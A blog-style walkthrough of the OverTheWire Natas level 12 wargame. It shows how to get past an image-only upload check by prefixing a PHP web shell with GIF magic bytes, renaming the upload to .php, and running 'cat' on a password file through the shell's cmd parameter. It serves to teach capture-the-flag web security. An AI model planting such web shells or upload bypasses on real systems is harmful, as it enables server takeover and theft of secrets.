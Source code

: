 ```yaml
---
layout: post
title:  "Natas Level 12 → Level 13"
date:   2021-05-27 15:47:18
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Filter jilter
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas12 website allows us to select and upload an image, and view the page source. This time it claims it will only accept image files.  Since the source is now starting to get a bit longer, I'll highlight the pertinent line(s) below.

Server-side code:
```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
```

Client-side code:
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

Here we see the same method of client-side renaming used in the last level. The site author has also updated the code to include a server-side EXIF data check to try and ensure the data sent is a valid image file. Since we have no control over the server-side, we'll need to trick the code into accepting our php script once again.  This time, we'll need to embed the [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a valid image file into our script.

There are several ways to go about adding the magic bytes: you can write a small script in python (or another language) to create the file and embed the hex characters, you can use a hex editor to prepend the hex bytes to the shell.php file from the last level, or you can copy the text characters, not the hex characters and paste them into shell.php with your favorite editor. 

Initially, I tried to use the text characters for jpg but was unsuccessful. Looking at the hex output I could see that the characters were wrong. I'm not sure if that was an issue with vim or not. I opted to use GIF instead since it didn't contain any Unicode characters.

shell.php
```php
GIF89a: <? passthru($_GET["cmd"]); ?>
```

The colon and space after GIF89a are not part of the magic bytes and are not technically required. They've been included to make reading the password at the end of the level easier. 

Open the web developer tools for your browser and use the inspector to quickly locate the upload section of the code. You should see something similar to the following:

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000">
<input type="hidden" name="filename" value="upzknql2yq.jpg">
```

The last line is the one we're looking for. The name of the file, **upzknql2yq** will be different for you. Change the extension from .jpg to .php using the developer tools. Do not refresh the page or use the browser navigation buttons, or you'll need to change the extension once again.

With the extension now changed, click on the browse button, select shell.php, and then click upload. 

You should see a message similar to the following:
```
The file upload/zidcnm44f9.php has been uploaded
```

Make certain that the uploaded file ends in .php. If not, navigate back and re-edit the page source using the developer tools. Once you have the confirmation that the file uploaded with the .php extension, copy the link to the file location. Do not click the link.

Paste the link into the browser and append the following to the URL:
```
?cmd=cat /etc/natas_webpass/natas14
```

The ASCII representation of the magic bytes and the password to the next level will display on the page.